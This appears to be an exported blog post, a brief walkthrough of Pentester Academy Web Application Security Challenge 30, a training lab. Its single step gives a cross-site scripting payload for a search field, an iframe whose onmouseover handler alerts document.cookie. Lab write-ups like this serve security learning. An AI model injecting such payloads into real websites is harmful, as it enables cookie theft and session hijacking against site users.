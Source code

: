 title: [Pentester Academy] Web Application Security Challenge 30
link: http://localhost/pentester-academy-web-application-security-challenge-30/
author: exploitprotocol
description: 
post_id: 1783
created: 2015/01/08 09:12:02
created_gmt: 2015/01/08 09:12:02
comment_status: open
post_name: pentester-academy-web-application-security-challenge-30
status: publish
post_type: post

# [Pentester Academy] Web Application Security Challenge 30

Insert **<iframe onmouseover="alert(document.cookie)">** in the search field. ![](https://i.imgur.com/BALOpeg.png)